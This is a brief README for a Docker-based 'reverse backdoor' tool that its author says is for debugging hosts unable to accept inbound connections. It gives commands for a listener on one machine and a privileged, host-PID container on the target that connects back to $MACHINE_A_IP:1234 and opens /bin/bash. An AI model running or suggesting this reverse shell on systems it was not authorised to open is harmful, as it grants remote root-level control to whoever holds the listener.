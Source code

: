 # Disclaimer

I'm not responsible for anything you do with this tool.

# Backdoor + Accomplice

This is the source code for a reverse backdoor tool that I use for debugging.
Useful when the machine to access cannot listen on the internet.

# Usage

## On machine A that can listen on a port open to the internet

```bash
$ docker run -it --rm --net host tiborvass/backdoor-accomplice 0.0.0.0:1234
```

## On machine B that you want to backdoor

```bash
$ docker run -dit --pid host --privileged tiborvass/backdoor $MACHINE_A_IP:1234 /bin/bash
```

# Building

## Accomplice

```
docker build --target accomplice .
```

## Backdoor

```
docker build --target backdoor .
```
